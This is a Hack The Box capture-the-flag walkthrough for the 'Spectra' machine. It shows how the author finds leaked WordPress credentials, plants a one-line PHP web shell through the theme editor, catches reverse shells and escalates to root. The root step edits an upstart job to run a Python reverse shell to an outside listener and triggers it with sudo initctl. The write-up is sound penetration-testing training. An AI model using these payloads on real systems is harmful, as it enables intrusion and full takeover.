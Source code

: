 ```yaml
---
permalink: /misc/htb/spectra
title: Spectra
---
```


<br>

# Nmap

```bash
$ nmap 10.10.10.229
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-28 03:56 AEST
Nmap scan report for 10.10.10.229
Host is up (0.68s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 79.01 seconds
```

We can visit http://10.10.10.229/

Add `10.10.10.229 spectra.htb` to /etc/hosts

Looking around we can see index of http://spectra.htb/testing/ is available to us.

From there we can go to http://spectra.htb/testing/wp-config.php.save the code is hidden in a php tag but we can view it in the page source (ctrl U).

```php

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );
```

I tried to login but got this error:

```bash
[~/Documents/HTB/spectra] 
$ mysql -h 10.10.10.229 -u devteam -p -D dev 
Enter password: 
ERROR 1130 (HY000): Host '10.10.16.17' is not allowed to connect to this MySQL server
```

Our password is correct, but our IP is not authorised.

I had luck with wordpress however: http://spectra.htb/main/wp-login.php

`administrator:devteam01`

Go to Appearance > Theme Editor

Change Twenty Twenty to something else, eg Twenty Nineteen

Click some php page, eg 404.php

Replace the code with

```php
<?php system($_REQUEST['connor']); ?>
```

and update file.

I ran into this issue <https://stackoverflow.com/questions/52671255/wordpress-editor-not-updating-files-unable-to-communicate-back-with-site-to-che>

where disabling then re-enabling all plugins fixed it.

Now we can run commands: http://spectra.htb/main/wp-content/themes/twentynineteen/404.php?connor=whoami

Tip: use `cat ... | xclip -selection clipboard` to copy large files to clipboard

We'll use a [php reverse shell](https://github.com/BlackArch/webshells/blob/master/php/php-reverse-shell.php)

```bash
$ nc -lvnp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.229.
Ncat: Connection from 10.10.10.229:35376.
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7302P 16-Core Processor AuthenticAMD GNU/Linux
 16:25:03 up  5:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ cd /home
$ whoami
nginx
$ ls
chronos
katie
nginx
root
user
$ cd katie
$ ls
log
user.txt
$ 
```

With `cat /etc/lsb-release` we see it is using ChromeOS

# Lateral Move

We are currently the nginx user and want to pivot to Katie.

Running linPEAS let's us find katie's password:

```bash
$ cat /etc/autologin/passwd
SummerHereWeCome!!
```

```bash
$ ssh katie@spectra.htb
The authenticity of host 'spectra.htb (10.10.10.229)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'spectra.htb' (RSA) to the list of known hosts.
(katie@spectra.htb) Password: 
katie@spectra ~ $ ls
log  user.txt
katie@spectra ~ $ cat user.txt 
e89d27fe195e9114ffa72ba8913a6130
```

# Privesc

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

We can see she is in the developers group and can access these files:

```bash
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $ find / -group developers 2>/dev/null
/etc/init/test6.conf
/etc/init/test7.conf
/etc/init/test3.conf
/etc/init/test4.conf
/etc/init/test.conf
/etc/init/test8.conf
/etc/init/test9.conf
/etc/init/test10.conf
/etc/init/test2.conf
/etc/init/test5.conf
/etc/init/test1.conf
/srv
/srv/nodetest.js
katie@spectra ~ $ 
```

Edit `etc/init/test1.conf`to get a python reverse shell:

```python
start on pwn
task
exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.17",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
katie@spectra ~ $ sudo /sbin/initctl emit pwn
```

```bash
$ nc -lvnp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.229.
Ncat: Connection from 10.10.10.229:35394.
# cat /root/root.txt
d44519713b889d5e1f9e536d0c6df2fc
# 
```
